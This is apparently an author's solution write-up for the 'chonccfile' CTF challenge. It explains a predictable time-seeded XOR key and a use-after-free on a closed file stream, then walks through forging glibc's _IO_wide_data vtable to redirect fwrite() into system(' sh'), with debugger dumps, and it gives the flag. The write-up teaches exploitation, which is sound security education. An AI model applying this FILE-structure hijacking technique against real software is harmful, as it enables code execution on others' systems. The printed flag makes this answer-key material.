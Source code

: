 # chonccfile - Author's solution

## About the challenge

This challenge is a simple introduction on exploiting file streams in C.
The author has been researching on the topic and wanted to share the knowledge.

## Technical Mechanism

The program, *chonccfile*, allows the user to allocate memory chunks (a choncc) of an user-specified size.
These chonccs are stored in a linked list, and the user can write to them, read from them, and delete them.
The total size of all chonccs must never exceed 0x200 bytes.
The program allows the user to write the chonccs to a chonccfile, which is a file with the path */tmp/chonccfile*.
However, the user must first open, write, and close the file in the correct order.
If done properly, the program will write the chonccs to the file in a length-prefixed format.

There exists a cryptographic vulnerability in the program.
When the file stream for the chonccfile is closed, the program performs XOR encryption on the entire file stream,
along with calls to *sleep()* to simulate delays.
The values used for the XOR encryption are generated by seeding the random number generator with the current system time.
This results in the values used for encryption to be predictable, once the current system time is known.
This condition can be satisfied, for when a request to write to the chonccfile is made, the program prints a timestamp of the current system time.
An attacker can use this insufficient entropy vulnerability to predict the values used for the XOR encryption, and thus decrypt the file stream, if the encrypted data is known.

A use-after-free vulnerability exists in the file stream handling features of the program.
When a file stream for the chonccfile is closed, the reference to it is not removed.
This causes a use-after-free condition, and allows the attacker to view, and modify an previously deallocated chunk of memory.
An attacker can send malicious input to the program to disclose information about the program's state, and hijack the program's control flow,
causing an arbitrary code execution condition.

## Exploitation Scenario

An attacker can open a chonccfile, then close it to trigger the XOR encryption on the file stream.
Afterwards, the attacker can request to write to the chonccfile, then cancel, and view the timestamp of the current system time.
An attacker can allocate a memory chunk of the same size as the file stream after the file stream has been closed.
Then, the attacker can view the encrypted data, to predict the values used for the XOR encryption.
This allows the attacker to decrypt the data, and view the contents of the memory chunk, which may contain information about the program's state,
including heap addresses and pointers to structures in libc.
Finally, the attacker can write to the memory chunk, which can also be treated as a file stream, and perform a write operation to it;
however, because the attacker can control the entire contents of the memory chunk, and with that, the entire contents of the file stream,
the attacker can modify the file stream to hijack the program's control flow by changing virtual function table addresses and creating a malicious
virtual function table, converting what is originally a file write operation into arbitrary code execution.

## Walkthrough of the Control Flow Hijacking on the call to *fwrite()*

The file stream is a *struct _IO_FILE_plus* structure, which contains a pointer to a virtual function table.
As shown below, the file stream can be modified to point to a malicious virtual function table, which can be used to execute arbitrary code.
Included in the virtual function table is a pointer to the *system()* function in libc, which can be used to execute shell commands.
However, this virtual function table is not directly accessible, as it is stored in a *struct _IO_wide_data* structure, which is pointed to by the file stream.

There are checks to ensure that the *_vtable* field of the *struct _IO_FILE_plus* structure is not modified, but it is not robust enough.
We can modify the *struct _IO_FILE_plus* structure to trigger a further virtual function table lookup on the *struct _IO_wide_data* structure.
One such function is *_IO_wfile_overflow()*, which is normally called for when the file stream is full, and a write operation is requested.

```
[#0] 0x7f7de187d30e → __GI__IO_fwrite(buf=0x561c0be0e480, size=0x4, count=0x1, fp=0x561c0be0e2a0)
[#1] 0x561be3e9f407 → mov rdx, QWORD PTR [rip+0x2c32]        # 0x561be3ea2040
[#2] 0x561be3e9fa76 → jmp 0x561be3e9fa91
[#3] 0x7f7de182a1f0 → __libc_start_call_main(main=0x561be3e9f979, argc=0x1, argv=0x7ffe1a9e7378)
[#4] 0x7f7de182a2b9 → __libc_start_main_impl(main=0x561be3e9f979, argc=0x1, argv=0x7ffe1a9e7378, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe1a9e7368)
[#5] 0x561be3e9f185 → hlt 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
(remote) gef➤  p *(struct _IO_FILE_plus *)fp
$1 = {
  file = {
    _flags = 0x687320,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0x0,
    _flags2 = 0x0,
    _old_offset = 0xffffffffffffffff,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = "",
    _lock = 0x561c0be0e308,
    _offset = 0xffffffffffffffff,
    _codecvt = 0x0,
    _wide_data = 0x561c0be0e290,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0x0,
    _unused2 = "\000\000\000\000n0\205\341}\177\000\000\000\343\340\v\034V\000"
  },
  vtable = 0x7f7de19ee2b0 <_IO_wfile_jumps+136>
}
(remote) gef➤  x/8a 0x7f7de19ee2b0
0x7f7de19ee2b0 <_IO_wfile_jumps+136>:   0x7f7de188a17e <__GI__IO_file_close>    0x7f7de188a11e <__GI__IO_file_stat>
0x7f7de19ee2c0 <_IO_wfile_jumps+152>:   0x7f7de188cfce <_IO_default_showmanyc>  0x7f7de188cfee <_IO_default_imbue>
0x7f7de19ee2d0: 0x0     0x0
0x7f7de19ee2e0: 0x7f7de18889de <_IO_new_file_finish>    0x7f7de18836de <__GI__IO_wfile_overflow>
```

The *struct _IO_wide_data* structure pointed by *fp->_wide_data* contains a pointer to another virtual function table.
There are no validations done to ensure that the virtual function table is not modified,
and thus an attacker can modify it to point to a malicious virtual function table.
In this case, on the call to *_IO_wfile_overflow()*, the program will subsequently call *_IO_wdoallocbuf()*,
which performs a virtual function table lookup on *fp->_wide_data->_wide_vtable* at offset 0x68.
As shown below, that pointer is set to the address of the *system()* function in libc.

```
(remote) gef➤  p ((struct _IO_wide_data *)0x561c0be0e290)->_wide_vtable
$3 = (const struct _IO_jump_t *) 0x561c0be0e300
(remote) gef➤  x/14a 0x561c0be0e300
0x561c0be0e300: 0x0     0x0
0x561c0be0e310: 0x0     0xffffffffffffffff
0x561c0be0e320: 0x0     0x561c0be0e308
0x561c0be0e330: 0xffffffffffffffff      0x0
0x561c0be0e340: 0x561c0be0e290  0x0
0x561c0be0e350: 0x0     0x0
0x561c0be0e360: 0x0     0x7f7de185306e <__libc_system>
```

Stepping into execution, we reach *do_system()* in *sysdeps/posix/system.c*, with the argument " sh".

```
──────────────────────────────────────────────────────────────────────────────── source:../sysdeps/posix/system.c+102 ────
     97  #endif
     98  
     99  /* Execute LINE as a shell command, returning its status.  */
    100  static int
    101  do_system (const char *line)
 →  102  {
    103    int status = -1;
    104    int ret;
    105    pid_t pid;
    106    struct sigaction sa;
    107  #ifndef _LIBC_REENTRANT
───────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7f7de1852bce in do_system (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f7de1852bce → do_system(line=0x561c0be0e2a0 " sh")
[#1] 0x7f7de188189e → __GI__IO_wdoallocbuf(fp=0x561c0be0e2a0)
[#2] 0x7f7de18837bd → __GI__IO_wfile_overflow(f=0x561c0be0e2a0, wch=0xbe0e480)
[#3] 0x7f7de187d3d2 → __GI__IO_fwrite(buf=0x561c0be0e480, size=0x4, count=0x1, fp=0x561c0be0e2a0)
[#4] 0x561be3e9f407 → mov rdx, QWORD PTR [rip+0x2c32]        # 0x561be3ea2040
[#5] 0x561be3e9fa76 → jmp 0x561be3e9fa91
[#6] 0x7f7de182a1f0 → __libc_start_call_main(main=0x561be3e9f979, argc=0x1, argv=0x7ffe1a9e7378)
[#7] 0x7f7de182a2b9 → __libc_start_main_impl(main=0x561be3e9f979, argc=0x1, argv=0x7ffe1a9e7378, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe1a9e7368)
[#8] 0x561be3e9f185 → hlt 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
(remote) gef➤  
```

## Exploit

Included in this directory is an exploit, *exploit.py*,
which demonstrates the control flow hijacking on the call to *fwrite()*.
The exploit will exploit the weakness of the random number generation,
decrypt the file stream, and modify the file stream to execute *system(" sh")*.

To see the usage of the exploit, run the following command:

```
$ python3 exploit.py -h
```

Here is an example of the exploit in action:

```
$ python exploit.py 
[+] Opening connection to localhost on port 5000: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
L3AK{fake_flag}
$  
```

## Flag

✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨ \
Final flag: **L3AK{C0rRuPt3d_FIL3_structs_L0V3_CH0NCC_D474}** \
✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨✨
